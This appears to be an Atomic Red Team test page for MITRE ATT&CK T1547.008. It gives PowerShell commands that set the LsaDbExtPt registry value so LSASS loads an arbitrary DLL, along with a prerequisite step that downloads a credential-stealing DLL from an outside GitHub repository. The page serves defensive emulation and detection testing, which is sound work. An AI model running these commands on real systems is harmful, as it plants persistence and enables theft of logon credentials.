 # T1547.008 - LSASS Driver
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/008)
<blockquote>Adversaries may modify or add LSASS drivers to obtain persistence on compromised systems. The Windows security subsystem is a set of components that manage and enforce the security policy for a computer or domain. The Local Security Authority (LSA) is the main component responsible for local security policy and user authentication. The LSA includes multiple dynamic link libraries (DLLs) associated with various other security functions, all of which run in the context of the LSA Subsystem Service (LSASS) lsass.exe process.(Citation: Microsoft Security Subsystem)

Adversaries may target LSASS drivers to obtain persistence. By either replacing or adding illegitimate drivers (e.g., [Hijack Execution Flow](https://attack.mitre.org/techniques/T1574)), an adversary can use LSA operations to continuously execute malicious payloads.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify Registry to load Arbitrary DLL into LSASS - LsaDbExtPt](#atomic-test-1---modify-registry-to-load-arbitrary-dll-into-lsass---lsadbextpt)


<br/>

## Atomic Test #1 - Modify Registry to load Arbitrary DLL into LSASS - LsaDbExtPt
The following Atomic will modify an undocumented registry key that may be abused to load a arbitrary DLL into LSASS. 

Upon execution, the registry key will be modified and a value will contain the path to the DLL. 
Reference: https://blog.xpnsec.com/exploring-mimikatz-part-1/ and source https://github.com/oxfemale/LogonCredentialsSteal
Note that if any LSA based protection is enabled, this will most likely not be successful with LSASS.exe loading the DLL.

**Supported Platforms:** Windows


**auto_generated_guid:** 8ecef16d-d289-46b4-917b-0dba6dc81cf1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | Module to be loaded into LSASS | Path | $env:TEMP&#92;lsass_lib.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NTDS -Name LsaDbExtPt -Value "#{dll_path}"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\NTDS" -Name "LsaDbExtPt" -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: lsass_lib.dll must exist on disk at specified location (#{dll_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest https://github.com/oxfemale/LogonCredentialsSteal/raw/53e74251f397ddeab2bd1348c3ff26d702cfd836/lsass_lib/x64/Release/lsass_lib.dll" -UseBasicParsing -OutFile "#{dll_path}"
```




<br/>
